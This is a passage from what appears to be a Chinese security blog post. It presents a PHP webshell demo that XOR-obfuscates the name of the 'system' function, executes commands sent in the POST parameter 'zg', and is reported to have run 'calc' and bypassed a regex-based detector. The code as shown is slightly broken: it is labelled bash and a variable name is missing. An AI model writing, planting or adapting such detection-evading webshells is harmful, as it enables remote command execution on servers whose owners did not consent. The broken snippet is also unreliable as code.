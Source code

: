 说干就干，我写了以下 demo：

```bash
header('HTTP/1.1 404');
class Aabyss{
    public $c='';
    function __destruct(){
        $ = ('.$.48]' ^ ']]]@]0');   //通过异或运算，得到高危函数 system
    return $($this->c);
    }
}
$runrun=new Aabyss();
@$runrun->c=$_POST['zg'];
```

传参后，成功执行 `calc` 弹出计算器：

[![](assets/1707953853-c15d9de2a1f55c00ea15651fbcd834c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206103455-50206c76-c498-1.png)

绕过正则表达式的匹配，成功 ByPass：

[![](assets/1707953853-5212dd170b6626e66d19a0660da8ba99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206103509-58815a1a-c498-1.png)
